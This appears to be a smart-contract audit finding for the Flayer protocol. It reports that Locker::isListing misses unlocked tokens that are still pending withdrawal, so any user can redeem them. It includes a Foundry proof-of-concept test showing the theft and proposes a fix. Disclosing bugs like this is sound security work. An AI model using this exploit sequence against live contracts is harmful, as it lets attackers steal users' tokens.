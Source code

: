 Wobbly Neon Hyena

Medium

# `Locker::isListing` doesn't check if the token is unlocked and pending withdrawal, allowing users to steal unlocked tokens

### Summary

In the locker contract, whenever a user wants to redeem or swap a token, the contract checks if the token is part of an acting listing, by checking that in both listings and protected listings contract.
```solidity
function isListing(address _collection, uint _tokenId) public view returns (bool) {
    IListings _listings = listings;

    // Check if we have a liquid or dutch listing
    if (_listings.listings(_collection, _tokenId).owner != address(0)) {
        return true;
    }

    // Check if we have a protected listing
    if (_listings.protectedListings().listings(_collection, _tokenId).owner != address(0)) {
        return true;
    }

    return false;
}
```
On the other hand, in the protected listings contract, a user can unlock his protected listing/token by paying the amount needed and choosing to withdraw that token later, when doing so:
* The protected listing is deleted
```solidity
// Delete the listing objects
delete _protectedListings[_collection][_tokenId];
```
* The token is added to the `canWithdrawAsset` mapping
```solidity
canWithdrawAsset[_collection][_tokenId] = msg.sender;
```

However, after the above, `Locker::isListing` will return false as the listing doesn't exist, while it is waiting to be claimed by the owner of the unlocked listing. This allows anyone to call either redeem or withdraw in the locker to steal that token.

### Root Cause

`Locker::isListing` doesn't check if the token is a part of `canWithdrawAsset` in protected listings, [here](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L438C14-L452).

### Impact

Unlocked tokens could be stolen.

### PoC

Add the following test in `flayer/test/ProtectedListings.t.sol`:

```solidity
function test_StealUnlockedListing() public {
    address bob = address(1);
    ICollectionToken collectionToken = ICollectionToken(
        locker.collectionToken(address(erc721a))
    );

    deal(address(collectionToken), bob, 4 ether);
    deal(address(collectionToken), address(this), 4 ether);

    uint256 tokenId = 0;
    erc721a.mint(address(this), tokenId);

    // THIS creates a protected listing
    erc721a.approve(address(protectedListings), tokenId);
    _createProtectedListing({
        _listing: IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(tokenId),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.95 ether,
                checkpoint: 0
            })
        })
    });

    // THIS unlocks the listing
    collectionToken.approve(address(protectedListings), type(uint256).max);
    protectedListings.unlockProtectedListing(
        address(erc721a),
        tokenId,
        false
    );

    // THIS is allowed to withdraw the asset
    assertEq(
        protectedListings.canWithdrawAsset(address(erc721a), tokenId),
        address(this)
    );

    // Bob steals the asset
    vm.startPrank(bob);
    collectionToken.approve(address(locker), type(uint256).max);
    locker.redeem(address(erc721a), _tokenIdToArray(tokenId), bob);
    vm.stopPrank();

    // Bob now owns the asset
    assertEq(erc721a.ownerOf(tokenId), bob);

    // THIS can no longer withdraw the asset, as it is owned by Bob
    vm.expectRevert(bytes("ERC721: caller is not token owner or approved"));
    protectedListings.withdrawProtectedListing(address(erc721a), tokenId);
}
```

### Mitigation

Add a condition to `Locker::isListing` to check if the token has a valid entry in `canWithdrawAsset`, if so, block the redemption/swap action.